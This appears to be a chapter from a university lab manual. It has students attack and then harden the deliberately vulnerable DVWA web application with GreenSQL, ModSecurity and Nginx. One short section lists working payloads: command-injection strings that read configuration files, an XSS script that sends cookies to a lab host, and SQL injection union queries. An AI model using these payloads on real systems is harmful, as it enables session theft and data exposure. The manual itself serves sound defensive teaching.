\chapter{Protecting an Insecure Web Application}
\label{Protecting an Insecure Web Application}

\begin{quote}
I will newer blindly copy paste commands from manuals specially when logged as root! -- Experienced IT system administrator.
\end{quote}

\section{Introduction}

The hands-on laboratory is mean to teach system administrator's how to protect insecure web application from common attacks like injection's, \gls{XSS}, \gls{CSRF}, brute force, file upload and file inclusion. Damn Vulnerable Web Application \gls{DVWA} is used as role of insecure application. Several vulnerable web application  alternatives exists \url{http://blog.taddong.com/2011/10/hacking-vulnerable-web-applications.html}


\subsection{Lab Scenario}
Lab participant acts as system administrator for small company which has several web applications. One legacy application is tremendously vulnerable for common type of attacks. Company ordered new web application to replace old and vulnerable service. However old application must survive at least few month's before being replaced. Till that time system administrator have high criticality task  to protect this vulnerable system. Blocking IP addresses is not a solution because client's requests can be originated from any location, although fixing all programming errors takes too long and new version of software was developed for that purposes.



\section{Pre-Requirements}
This hands-on laboratory is designed to students who have knowledge and skills for working with GNU/Linux command line, basic networking and HTTP(S) and understanding text editing.
\par
Students must have possibility to run at least two virtual machines with configuration seen in table~\ref{table:HW for DVWA}

\begin{table}
\centering
\caption{Hardware requirements for DVWA lab}
\begin{tabular}{|c|c|c|}
\hline 
\rule[-1ex]{0pt}{2.5ex} Hardware & Server & Client \\ 
\hline 
\rule[-1ex]{0pt}{2.5ex} RAM & $>=512MB$ & $>=1GB$\\ 
\hline
\rule[-1ex]{0pt}{2.5ex} HDD & $>=8GB$ (dynamic disk) & $>=16GB$ (dynamic disk)\\ 
\hline 
\rule[-1ex]{0pt}{2.5ex} NIC 1 & NAT  & NAT \\ 
\hline 
\rule[-1ex]{0pt}{2.5ex} NIC 2 & HostOnly & HostOnly \\ 
\hline 
\rule[-1ex]{0pt}{2.5ex} OS & Ubuntu Server 12.04 LTS & Ubuntu Desktop 12.04 LTS\\ 
\hline 
\end{tabular}
\label{table:HW for DVWA}
\end{table}

\section{Learning Objectives}

Student is able to install different application firewalls such as \gls{SQL} firewall and web application firewall. Minimal level is reached if the student demonstrates that different types of attacks are possible and successful against the vulnerable web application, installs \gls{SQL} firewall and demonstrates that basic \gls{SQLi} attacks are blocked, demonstrates that several web application attacks are still possible after installing the \gls{SQL} firewall such as reflected \gls{XSS} and stored \gls{XSS}, command injection and \gls{CSRF}, installs application firewall before web application and demonstrates that previously succeeded attacks (at least \gls{XSS}) are stopped.

\section{Setting up the Virtual Environment}

Two virtual machines are needed in this lab: Server and Client.
Download server and client \gls{OVA} files from the following links:

\url{http://elab.itcollege.ee:8000/infra_klient_small.ova}

\url{http://elab.itcollege.ee:8000/infra_server.ova}

Import virtual machines (If your host computer has only 4GB RAM, then reduce client machine memory to 1GB)

Start both machines. 
{\small{If you got an error about host only network then open Main Menu, choose File Preferences and choose Network and add Host Only Network.}}

Username and password for both machines are student.

Student user are in sudo group and can start administrator shell with \emph{sudo} command.

\section{Installation of Damn Vulnerable Web Application}
\subsection{Introduction to DVWA}

Ensure that you have administrator rights
\begin{minted}[frame=lines,framesep=2mm]{bash}
sudo -i
\end{minted}

Update local package cache
\begin{minted}[frame=lines,framesep=2mm]{bash}
apt-get update
\end{minted}


Ensure that unzip package is installed
\begin{minted}[frame=lines,framesep=2mm]{bash}
type unzip || apt-get install unzip
\end{minted}

Install apapache web server, mysql server and php5
\begin{minted}[frame=lines,framesep=2mm,fontsize=\small]{bash}
apt-get install apache2 mysql-server ssh php5 php5-mysql libapache2-mod-php5
\end{minted}


Dowload DVWA using web get utility wget
\begin{minted}[frame=lines,framesep=2mm]{bash}
wget http://dvwa.googlecode.com/files/DVWA-1.0.7.zip
\end{minted}

\begin{minted}[frame=lines,framesep=2mm]{bash}
unzip DVWA-1.0.7.zip
mv dvwa /var/www

nano /var/www/dvwa/config/config.inc.php

$_DVWA[ 'db_user' ] = 'root';
$_DVWA[ 'db_password' ] = 'student';
$_DVWA[ 'db_database' ] = 'dvwa';
\end{minted}
%$
For save use  CTRL + X

Next: the setup of DVWA database

http://$ServerIP$/dvwa/setup.php


Click the \emph{Create/Reset Database}

Log into \gls{DVWA}
http://$ServerIP$/dvwa/
Username : admin
Password : password

The main page of \gls{DVWA} should appear (Figure~\ref{Damn Vulnerable Web Application - default page})

Change \gls{DVWA} Security level to low (Figure~\ref{Setting DVWA Security Level to Low})
\begin{figure}[H] 
 \centering 
 
\includegraphics[width=0.8\textwidth]{DVWA_Main_Page.pdf}
 \rule{30em}{0.5pt}  
 \caption{Damn Vulnerable Web Application - default page} 
 \label{Damn Vulnerable Web Application - default page} 
\end{figure}

\begin{figure}[H] 
 \centering 
 
\includegraphics[width=0.6\textwidth]{dvwa_security_low.pdf}
 \rule{25em}{0.5pt}  
 \caption{Setting DVWA Security Level to Low} 
 \label{Setting DVWA Security Level to Low} 
\end{figure}




\subsection{Testing vulnerabilities}
For understanding a defence of web application a basic offensive knowledge and skills are needed. However, this lab focused on defensive methods and will not provide knowledge about different \gls{OWASP} top ten. 

\colorbox{red}{\parbox{\textwidth}{DISCLAIMER: Do not use followed methods on any computer except lab computer and only for learning propose!}}

\subsubsection{Common vulnerabilities}

Try the following vulnerabilities (find out how)

\begin{minted}[frame=lines,framesep=2mm]{bash}
8.8.8.8; sed 's/</UUUU/' ../../config/config.inc.php
#Find out directory and file structure of \gls{DVWA}
8.8.8.8; ls -l
8.8.8.8; ls -l ../../
8.8.8.8; sed 's/<//'  ../../../../wordpress/wp-config.php
8.8.8.8; touch /var/tmp/new_file.txt
8.8.8.8; ls /var/tmp/
; grep session.cookie_httponly /etc/php5/apache2/php.ini
\end{minted}

{\scriptsize
\begin{minted}[frame=lines,framesep=2mm]{html}
<script>var i='<img src="http://192.168.56.101/'+document.cookie+'" />'; document.write(i);</script>
\end{minted}


}
%\begin{minted}[frame=lines,framesep=2mm]{bash}
%3Cscript%3Evar+i%3D%27%3Cimg+src%3D%22http%3A%2F%2F192.168.56.101%2F%27%2Bdocument.cookie%2B%27%22+%2F%3E%27%3B+document.write%28i%29%3B%3C%2Fscript%3E
%\end{minted}
\begin{minted}[frame=lines,framesep=2mm]{sql}
1' union select BENCHMARK(100000000,ENCODE('hello','goodbye')),1; # --
2' UNION SELECT TABLE_SCHEMA, TABLE_NAME FROM information_schema.TABLES;# --
3' union  select TABLE_NAME,COLUMN_NAME from information_schema.columns; # --'
\end{minted}



\section{Installation of SQL Application Firewall}
Install the GreenSQL database firewall.
\subsubsection{Installing GreenSQL from pre built package (FOR BEGINNERS)}
\begin{minted}[frame=lines,framesep=2mm]{bash}
wget http://elab.itcollege.ee:8000/Day3/greensql-fw_1.3.0_amd64.deb
dpkg -i greensql-fw_1.3.0_amd64.deb
apt-get install -f

#Modify existing virtualhost or create new virtualhost.
cd /var/www/
ln -s /usr/share/greensql-fw/ greensql

cd /var/www/greensql
chmod 0777 templates_c
\end{minted}

\subsubsection{Installing GreenSQL Open Source frou source code (For Advanced Students)}


Download and install the \emph{greensql-fw}
\begin{minted}[frame=lines,framesep=2mm]{bash}

wget -O greensql-fw-1.3.0.tar.gz \
 "http://elab.itcollege.ee:8000/greensql-fw-1.3.0.tar.gz"

#Extract source code
tar zxvf greensql-fw-1.3.0.tar.gz

#Install pre requirements
apt-get install flex
apt-get install bison
apt-get install devscripts
apt-get install debhelper
apt-get install libpcre3-dev
apt-get install libmysqlclient-dev
apt-get install libpq-dev
#Build deb package (In this case it fails. Find out why.)
./build.sh
#Install package with dpkg
dpkg -i greensql-fw_1.3.0.deb
#Modify existing virtualhost or create new virtualhost.
cd /var/www/
ln -s /usr/share/greensql-fw/ greensql
cd greensql
chmod 0777 templates_c
\end{minted}

\section{Installation of Mod Security Application Firewall}
\begin{minted}[frame=lines,framesep=2mm,fontsize=\scriptsize]{bash}

sudo apt-get update
sudo apt-get install libxml2 libxml2-dev libxml2-utils
sudo apt-get install libapache2-modsecurity
ln -sf /usr/lib/x86_64-linux-gnu/libxml2.so.2 /usr/lib/libxml2.so.2
sudo mv /etc/modsecurity/modsecurity.conf-recommended /etc/modsecurity/modsecurity.conf
cd /tmp
 
wget http://downloads.sourceforge.net/project/mod-security/modsecurity-crs/0-CURRENT/modsecurity-crs_2.2.5.tar.gz
 
sudo tar zxf modsecurity-crs_2.2.5.tar.gz
 
sudo cp -R modsecurity-crs_2.2.5/* /etc/modsecurity/
 
sudo rm modsecurity-crs_2.2.5.tar.gz
 
sudo rm modsecurity-crs_2.2.5 -r
 
sudo mv /etc/modsecurity/modsecurity_crs_10_setup.conf.example /etc/modsecurity/modsecurity_crs_10_setup.conf 
\end{minted}


To enable rulesets create /etc/apache2/conf.d/modsecurity.conf file with following content:
\begin{minted}[frame=lines,framesep=2mm]{apache}
<ifmodule mod_security2.c>
SecRuleEngine On
</ifmodule>
\end{minted} 
\begin{minted}[frame=lines,framesep=2mm]{bash}
 
sudo a2enmod mod-security
sudo service apache2 restart

\end{minted}


File /etc/apache2/mods-enabled/mod-security.conf
\begin{minted}[frame=lines,framesep=2mm]{apache}

<IfModule security2_module>
        # Default Debian dir for modsecurity's persistent data
        SecDataDir /var/cache/modsecurity
 
        # Include all the *.conf files in /etc/modsecurity.
        # Keeping your local configuration in that directory
        # will allow for an easy upgrade of THIS file and
        # make your life easier
        Include "/etc/modsecurity/*.conf"
        Include "/etc/modsecurity/activated_rules/*.conf"
#       Include "/etc/modsecurity/optional_rules/*.conf"
        Include "/etc/modsecurity/base_rules/*.conf"
</IfModule>
\end{minted} 

%\url{https://www.owasp.org/index.php/Category:OWASP_ModSecurity_Core_Rule_Set_Project}
%\url{http://blog.spiderlabs.com/2011/07/modsecurity-sql-injection-challenge-lessons-learned.html}

Test the previous vulnerabilities and demonstrate that they failed to pass.


\section{Securing Web Application Configuration}
\begin{itemize}
\item Setting Document Cookies to HTTP Only
\item Fixing Database Privileges
\item Separating Web Applications (for internal use and for external use)
\end{itemize}


Install Nginx as \gls{TLS} termination according to this guide:
\url{https://wiki.itcollege.ee/index.php/TLS_termineerimine_nginx_abil}

Optional task: Find a Varnish firewall project and install the Varnish firewall.

\section{Final System Architecture} 
Keep in mind that final architecture contains several components to provide layered security for insecure web application as seen on Figure ~\ref{Architecture of Secured Web Application}

\begin{figure}[H] 
 \centering 
 
\includegraphics[width=0.9\textwidth]{web_security_lab_goal.pdf}
 \rule{35em}{0.5pt} 
 \caption{Architecture of Secured Web Application} 
 \label{Architecture of Secured Web Application} 
\end{figure}


